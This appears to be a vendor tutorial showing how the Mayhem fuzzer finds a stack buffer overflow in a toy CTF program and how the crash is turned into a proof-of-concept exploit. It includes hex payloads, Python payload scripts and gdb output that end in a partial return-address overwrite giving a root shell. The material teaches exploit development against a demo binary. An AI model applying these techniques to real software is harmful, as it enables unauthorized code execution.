


# Crafting POCs for Fun and Profit using Mayhem

It has been a while since [AlephOne](https://en.wikipedia.org/wiki/Elias_Levy) published his now famous [Smashing the Stack for Fun and Profit](http://phrack.org/issues/49/14.html#article) article in Phrack. Tens of thousands of buffer overflows have been exploited in the wild since then and new ones are still popping up as CVEs every other day! Is it easy to to find and exploit buffer overflows if you know nothing about them? Could you do it in under 5 minutes?

In this 5-min tutorial we will do exactly that! We will use Mayhem to generate a Proof-of-Concept (POC) exploit for a buffer overflow using a simple C program as our running example: [snote.c](./snote.c) - an example is similar low difficulty Capture-The-Flag (CTF) challenges like the ones you would find on [picoctf.com](https://picoctf.com/). The program has a standard buffer overflow in the `note` function with a minor twist: the exploit payload needs to satisfy a certain constraint for it to work:

```c
    int local_min = min;
    int local_hour = hour;
    char note_buf[64];

    fread(note_buf, 1, 128, stream);

    if ((unsigned int)(local_hour*local_min) > 24*60) {
        printf("*buffer overflow is detected!\n");
        exit(1);
    }
```

Even though an overflow is possible during the `fread` call, we have to make sure we overflow the contents of the stack with values that have the right endianness and meet the criteria `local_hour * local_min > 24*60` or the function will exit without ever returning! We can probably spend some time and try to exploit this manually or feed it to Mayhem and let it do the grunt work.

## Step 1: Build the target and run it!

We put a quick [Dockerfile](./Dockerfile) together to build the app - note we separate the build step from the analysis step (this is done to keep our testing image small). Let's build:

```sh
$ docker build -t ethan42/snote:3 .
[+] Building 0.8s (10/10) FINISHED
...
 => => naming to docker.io/ethan42/snote:3                                                      0.0s
```

push:

```sh
+ docker push ethan42/snote:3
The push refers to repository [docker.io/ethan42/snote]
0871d0b5c286: Layer already exists
916250acc665: Layer already exists
3: digest: sha256:f8436aaf18ac1e405b1e6c9051ad7301cf18143cf9e11243dc9523b3f0d61475 size: 736
```

and get our run started:

```sh
$ mayhem run . --image ethan42/snote:3
Run started: snote/debian/1
Run URL: https://app.mayhem.security:443/ethan42/snote/debian/1
snote/debian/1
```

Seconds later, we observe that Mayhem has come up with a handful of defects including:



Boom! Let's try it out!

## Step 2: Defect Analysis

Clearly seeing a "Stack-based Buffer Overflow" with a "High" severity rating is pretty bad, but let's check out defect details and assess how bad it is. Navigating to the defect screen we see that the backtrace looks suspicious:

```
#0 0x55555555529d in note+0xba at ??:0:0
#1 0x6f6f6f6f736f6f6f
```

and the crashing instruction is a `ret` - always a good sign :)

```
0x55555555529d:	ret
0x55555555529e:	push	rbp
0x55555555529f:	mov	rbp, rsp
0x5555555552a2:	sub	rsp, 0x40
...
```

and the faulting address is `0x6f6f6f6f736f6f6f` which conveniently is already part of our payload:

```
0000000: 7365 6372 5ead 6f6f 6981 6fa7 6f6f 736f secr^.ooi.o.ooso
0000010: 6f6f 6f6f 176f 6f6f 6f6f 6f6f 636f 816f oooo.oooooooco.o
0000020: a76f 6f73 6f6f 6f6f 6f17 6f6f 6f6f 6f6f .oosooooo.oooooo
0000030: 6f63 6f72 6fb1 826f 726f 6f8a 6f6f 6f6f ocoro..oroo.oooo
```

OK, we can safely say this is looking pretty vulnerable!

## Step 3: Crafting a POC exploit

In the previous section, we concluded that the testcase generated by Mayhem does lead to Instruction Pointer (IP) control, but can we weaponize it? First, let's check what defenses are present by checking out the run's exploitability factors:



We see that the target does have DEP and ASLR ([Position-Independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) - aka PIE) enabled but crucially appears to have [fortify](https://access.redhat.com/blogs/766093/posts/3606481) and [StackGuard](https://access.redhat.com/blogs/766093/posts/3548631) off - note these happen to be the default settings of gcc as packaged for debian stable today!

Based on the above, that means we should be able to get RIP and have arbitrary control. Let's try it out:

Let's sync our testcases:

```sh
$ mayhem sync .
Downloaded: Mayhemfile.
Downloading testsuite.tar: 530.5 KiB |            #              | Elapsed Time: 0:00:01 409.0 KiB/s
Extracting tests 260 of 260 |#######################################################| Time:  0:00:00
Target synced at: '.'.
```

Let's checkout our testcase:
```
$ hexdump -C testsuite/841a4654bbe73a3681b69e6c0f249b4dac5ff2dd41f3d1088b02239d7c9de5c2
00000000  73 65 63 72 5e ad 6f 6f  69 81 6f a7 6f 6f 73 6f  |secr^.ooi.o.ooso|
00000010  6f 6f 6f 6f 17 6f 6f 6f  6f 6f 6f 6f 63 6f 81 6f  |oooo.oooooooco.o|
00000020  a7 6f 6f 73 6f 6f 6f 6f  6f 17 6f 6f 6f 6f 6f 6f  |.oosooooo.oooooo|
00000030  6f 63 6f 72 6f b1 82 6f  72 6f 6f 8a 6f 6f 6f 6f  |ocoro..oroo.oooo|
00000040  6f 6f 6f 5f 6f 6f 6f 6f  60 08 65 2d cf a6 55 00  |ooo_oooo`.e-..U.|
00000050  fa 00 00 fa 6f 6f 6f 6f  6f 6f 6f 73 6f 6f 6f 6f  |....ooooooosoooo|
00000060  6f 5f 6f 6f 6f 6f 6f 6f  6f 6f e8 6f 6f 6f 6f 70  |o_oooooooo.oooop|
00000070  53 6f 6f 6f 6f 6f 6f 6f  6f 73 6f 6f 6f 6f 6f 17  |Soooooooosooooo.|
00000080  6f 6f 6f 6f 53 6f 6f 6f  6f 50 6f 6f 6f 6f 6f 6f  |ooooSooooPoooooo|
00000090  6f 6f 6f 6f 6f 6f 6f 6f  6f 63 6f                 |oooooooooco|
0000009b
```

And let's try running it against our target:

```
$ cp testsuite/841a4654bbe73a3681b69e6c0f249b4dac5ff2dd41f3d1088b02239d7c9de5c2 poc
$ docker run -v `pwd`/poc:/input -it ethan42/snote:3 /snote subject /input
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU
$ dmesg | grep snote
[Tue Apr  9 05:17:01 2024] traps: snote[842557] general protection fault ip:55c6f99ac29d sp:7ffd0a7fe7d8 error:0 in snote[55c6f99ac000+1000]
```

The issue reproduces! Let's put these bytes in a script and modify the IP bytes:

```
$ xxd -c 0 -p poc
736563725ead6f6f69816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f726fb1826f726f6f8a6f6f6f6f6f6f6f5f6f6f6f6f6008652dcfa65500fa0000fa6f6f6f6f6f6f6f736f6f6f6f6f5f6f6f6f6f6f6f6f6fe86f6f6f6f70536f6f6f6f6f6f6f6f736f6f6f6f6f176f6f6f6f536f6f6f6f506f6f6f6f6f6f6f6f6f6f6f6f6f6f6f636f
```

We note the faulting address `6f6f6f736f6f6f6f` shows up twice in the payload. Let's modify each one and see which one controls the IP. Let's put it in a python file and marking the first instance with a sequence of "aaa"s and the second one with a sequence of "bbb"s (this is the best way to detect which bytes give you control but is definitely the fastest).

```python
import sys

payload = "736563725ead6f6f69816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f726fb1826f726f6f8a6f6f6f6f6f6f6f5f6f6f6f6f6008652dcfa65500fa0000fa6f6f6f6faaaaaaaaaaaaaaaa6f5f6f6f6f6f6f6f6f6fe86f6f6f6f70536f6f6f6f6fbbbbbbbbbbbbbbbb6f176f6f6f6f536f6f6f6f506f6f6f6f6f6f6f6f6f6f6f6f6f6f6f636f"
sys.stdout.buffer.write(bytes.fromhex(payload))
```

Let's try it out:

```
$ python3 exploit.py > poc2
$ docker run  -v `pwd`/:/input -it ethan42/snote:3 bash
root@5440c590a40c:/# apt update
...
root@5440c590a40c:/# apt install gdb
...

root@5440c590a40c:/# gdb ./snote
(gdb) r subject /input/poc2
Starting program: /snote subject /input/poc2
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU

Program received signal SIGSEGV, Segmentation fault.
0x000055a4394f929d in note ()
(gdb) x/i $rip
=> 0x55a4394f929d <note+186>:	ret
(gdb) x/1gx $rsp
0x7ffe666b61a8:	0xaaaaaaaaaaaaaaaa
```

Well the message is pretty clear, we now know which bytes control RIP and can jump anywhere in the text section. Interestingly, modifying bytes 8-24 *before* the 8 bytes corresponding to the RIP breaks the control hijack because of the multiplication constraint we showed earlier in the code - so we need to restrict our changes to bytes *after* the RIP bytes.

Traditionally we may want to try [Return-Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP) as the next step towards weaponization. In this particular example, we have ASLR/PIE on as we saw earlier so it may be a bit more difficult, *but* we also saw a `maintenance` function conveniently located next to the `note` function we were exploiting. Specifically, we see that `main` would return to an address `0x...7363`:

```
   0x000055c90f757358 <+186>:	mov    -0x8(%rbp),%rdx
   0x000055c90f75735c <+190>:	mov    %eax,%edi
   0x000055c90f75735e <+192>:	call   0x55c90f7571e3 <note>
   0x000055c90f757363 <+197>:	mov    -0x18(%rbp),%rax
   0x000055c90f757367 <+201>:	mov    %rax,%rdi
```

while `maintenance` is at `0x...71b9`:

```
 disass maintenance
Dump of assembler code for function maintenance:
   0x000055c90f7571b9 <+0>:	push   %rbp
   0x000055c90f7571ba <+1>:	mov    %rsp,%rbp
   0x000055c90f7571bd <+4>:	mov    $0x0,%edx
   0x000055c90f7571c2 <+9>:	lea    0xe3b(%rip),%rax        # 0x55c90f758004
   0x000055c90f7571c9 <+16>:	mov    %rax,%rsi
   0x000055c90f7571cc <+19>:	lea    0xe34(%rip),%rax        # 0x55c90f758007
   0x000055c90f7571d3 <+26>:	mov    %rax,%rdi
   0x000055c90f7571d6 <+29>:	mov    $0x0,%eax
   0x000055c90f7571db <+34>:	call   0x55c90f7570b0 <execl@plt>
```

Changing our payload to overwrite only the lowest bytes of the return address can still give us a shell by forcing `note` to return execution to `maintenance`! Let's try it out, modifying our script (note the end bytes `b971` corresponding to a possible address for the `maintenance` function):

```python
import sys

payload = "736563725ead6f6f69816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f726fb1826f726f6f8a6f6f6f6f6f6f6f5f6f6f6f6f6008652dcfa65500fa0000fa6f6f6f6fb971"
sys.stdout.buffer.write(bytes.fromhex(payload))
```

After a few iterations:

```
$ python3 exploit.py > poc3
$ while true; do docker run -v `pwd`/poc3:/input -it ethan42/snote:3 /snote subject /input; done
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU
...
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU
# ls
bin   dev  home   lib	 media	opt   root  sbin   srv	tmp  var
boot  etc  input  lib64  mnt	proc  run   snote  sys	usr
# whoami
root
#
```

We get a shell! Naturally, for a real-world scenario we would have to continue working on our exploit to get it to work on the first try, but this is good enough for a non-weaponized POC! From code to POC within ~5 minutes, not too bad :)